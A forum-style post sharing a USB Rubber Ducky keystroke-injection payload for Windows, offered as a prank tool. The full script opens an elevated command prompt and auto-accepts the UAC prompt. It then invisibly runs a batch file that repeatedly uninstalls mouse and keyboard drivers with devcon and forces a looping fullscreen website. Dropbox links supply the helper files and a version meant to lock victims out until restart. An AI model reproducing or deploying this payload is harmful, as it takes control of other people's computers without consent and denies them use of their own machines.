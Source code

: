 The explanation is in the code.
Link to other files: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0 (same link as the one in the code)

Side note: If you want to be a bastard and prevent them from using any mouse and keyboard at all until they restart here is the link to a looping version of the batch file: https://www.dropbox.com/s/czlyh93ga3myb8m/TheRealAnnoyance.bat?dl=0
It continually does a devcon command to uninstall all mouse and keyboard drivers--even if they were just installed.
To use it just replace the other one with this one. Mind you: if you run this on your computer you WILL NOT be able to do anything unless you restart you computer or you have a weird-ass way of controlling your computer without a mouse and keyboard. (Telekinesis?)

Code:
```
REM Title: Website Lock
REM Author: Audiack
REM Target Ducky Encoder: 2.6.2
REM Target OS: Windows 7 (32 and 64 bit), maybe older/newer windows versions. Haven't tested it on any other than 7.
REM Description: Plays off of Aprizm's script to open a website, but it also disables the mouse and keyboard so the user can't leave the website.
REM Info:
REM     The user can easily unplug and re-plug in the keyboard/mouse to reinstall the drivers get them working again. 
REM     This requires the user to plug a USB drive in BEFORE the ducky is plugged in.
REM     The files are here: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0.
REM     Make sure the files are in the root of a drive called DUCKY.
REM     Twin duck works well with this. It is what I used when I was testing it. 
REM File Descriptions:
REM     The devcon32 & devcon64 are the files used to uninstall the keyboard and mouse drivers (for the two architectures).
REM     The invisible.vbs is used to run the batch script invisibly after the video is in fullscreen.
REM     The TheRealAnnoyance.bat is the batch script run in the background that disables their mouse & keyboard.
REM     The WebsiteLink.txt contains the website link. The user can change this as desired. Make sure there are no spaces and there is only a single link.
REM     If you are going to modify the website link as a youtube video, it needs to be in this format: 
https://www.youtube.com/embed/sCNrK-n68CM?rel=0&autoplay=1&loop=1
REM     Find the youtube video you want, then take the part after watch?v= and put it in place of sCNrK-n68CM in the above link.
DELAY 3000
CTRL ESC
DELAY 700
STRING cmd
CTRL-SHIFT ENTER
DELAY 3000
ALT Y
DELAY 700

STRING for /f %d in ('wmic.exe volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%d
ENTER
DELAY 1200
STRING cd /d %myd%
ENTER

DELAY 1000
STRING type "WebsiteLink.txt" | clip
ENTER
DELAY 100
STRING C:/windows/System32/wscript.exe invisible.vbs TheRealAnnoyance.bat
ENTER
DELAY 400

REM Aprizm's code for youtube roller begins here. I changed the link to a ctrl-v so that the ducky pastes the contents of WebsiteLink.txt hence the above line of code: 'type "WebsiteLink.txt" | clip'
REM Title: Youtube Roller
REM Author: Aprizm
REM Description: This scripts opens a youtube video in fullscreen and puts the browser in fullscreen
REM Option : if you change the link of the video dont forget to change the watch with watch_popup to have it fullscreen also add &loop=1 at the end to make it loop forever
DELAY 200
GUI r
DELAY 200
CTRL V
ENTER
DELAY 1000
F11
```